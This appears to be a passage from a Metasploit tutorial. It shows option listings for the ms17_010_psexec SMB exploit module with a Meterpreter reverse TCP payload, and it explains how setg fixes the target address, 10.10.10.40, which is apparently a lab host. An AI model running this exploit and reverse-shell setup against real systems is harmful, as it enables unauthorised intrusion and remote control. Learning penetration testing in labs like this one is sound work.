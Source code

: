 ```shell-session
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

In addition, there is the option `setg`, which specifies options selected by us as permanent until the program is restarted. Therefore, if we are working on a particular target host, we can use this command to set the IP address once and not change it again until we change our focus to a different IP address.

**MSF - Permanent Target Specification**

Modules

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
```